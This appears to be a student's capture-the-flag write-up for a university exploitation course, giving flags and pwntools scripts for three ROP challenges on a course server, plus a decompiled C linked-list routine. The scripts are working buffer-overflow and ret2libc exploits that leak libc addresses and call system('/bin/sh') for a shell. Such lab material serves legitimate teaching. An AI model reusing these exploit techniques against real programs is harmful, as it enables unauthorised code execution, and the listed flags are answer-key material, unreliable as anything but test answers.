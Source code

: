 
## SWROP

Flag: `COMP6447{this_was-easy}`

from pwn import *
p = remote('plzpwn.me',6000)
#r = process('./swrop')
p.recv()
p.sendline('A'*136+p32(0x08048390)+p32(0)+p32(0x080485f0))
p.interactive()

## roproprop
Flag: `COMP6447{nomnomnom..i mean roproprop}`

```
from pwn import *

libc = ELF('./libc-2.23.so')

p = remote("plzpwn.me", 6002)

p.recv(2)
leak = int(p.recv(10), 16)
p.recv()

libc.address = leak - libc.symbols['setbuf']
system = libc.symbols['system']
binsh = libc.search("/bin/sh").next()

p.sendline('A'*(0x4ce)+p32(system)+p32(0)+p32(binsh))
p.interactive()
```

## ropme
Flag: `COMP6447{no_u_come_up_with_another_flag}`

```
from pwn import *


puts_plt = 0x080483b0
puts_got = 0x0804a014
vuln = 0x0804850a
# p = process('./ropme')
p = remote("plzpwn.me",6003);
# gdb.attach(p, gdbscript = 'b *vuln+1')

print p.recv()
p.sendline('A'*12 +
        p32(puts_plt) +
        p32(vuln+1) +
        p32(puts_got)
        )
leak = u32(p.recv(4))
print hex(leak)
# p.interactive()

p.recv()

libc = ELF('./libc-2.23.so')
# libc = ELF('./libc-2.27.so')
libc.address = leak - libc.symbols['_IO_puts']
system = libc.symbols['system']
binsh = libc.search("/bin/sh").next()
print "system() = " + hex(system)
print "binsh() = " + hex(binsh)

p.sendline(
        'A'*12+
        p32(system)+
        p32(0)+
        p32(binsh)
        )
p.interactive()
```

## RE
```
#include <stdlib.h>
struct node {
	char val;
	struct node *nxt;
};

struct node* new () {
	int b = 0;
	struct node *a;
	struct node *c = NULL;

	while (b <= 9) {
		a = malloc(8);
		if (a == NULL) {
			exit(1);
		}
		if (c != NULL) {
			a->nxt = c;
			c = a;
		} else {
			c = a;
		}
		a->nxt = NULL;
		a->val = b + 'A';

		b++;
	}
	return c;
}
```

